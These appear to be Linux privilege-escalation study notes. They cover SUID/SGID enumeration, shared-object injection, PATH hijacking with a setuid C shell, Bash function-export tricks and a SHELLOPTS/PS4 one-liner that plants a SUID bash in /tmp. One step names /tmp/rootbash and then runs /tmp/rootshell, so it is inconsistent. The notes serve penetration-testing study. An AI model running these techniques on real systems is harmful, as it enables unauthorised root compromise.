 # Privileges Escalation - Linux
# Exploiting SUID/SGID 
- **SUID**: **Set User ID**. When an executable file has the SUID bit set, anyone who runs it does so with the permissions of the file's owner, usually **root**. Useful for allowing users to run programs that require elevated privileges without giving full root access.
- **SGID**: ***Set Group ID**. When an executable file has the SGID bit set, anyone who runs it does so with the file's group (not the caller's).

## Executables
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null` to look for executables, hoping some of them have an obsolete (so vulnerable) version.
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- If we find something interesting, copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects
Some binaries could be vulnerable to shared objects injections.
- `strace <BINARY PATH> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <BINARY PATH>` to look for readable ASCII or Unicode characters.
  - If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`), we can exploit it creating a `.c` program:
    ```
    int main() {
            setuid(0);  
            system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <EXPLOIT>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <BINARY PATH>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

## Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). If the version is **below** 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

If the shell version is **above** that one, anyway it will read `SHELLOPTS` and `PS4` variables before removing the SUID privileges (known bug). So we can exploit it with:
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <BINARY PATH>` in which:
    - `env -i` executes a program in an empty environment, without inheriting any variables.
    - `SHELLOPTS=xtrace` turns on the debug mode.
    - `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` sets a debugging prompt, that will be printed before each command.
      - It copies Bash in the `/tmp` directory and gives it execution permissions with UID = 0 (root)
- Now, running the shell with `/tmp/rootshell`, we should be able to gain access to a root shell. Check it with `whoami`.     













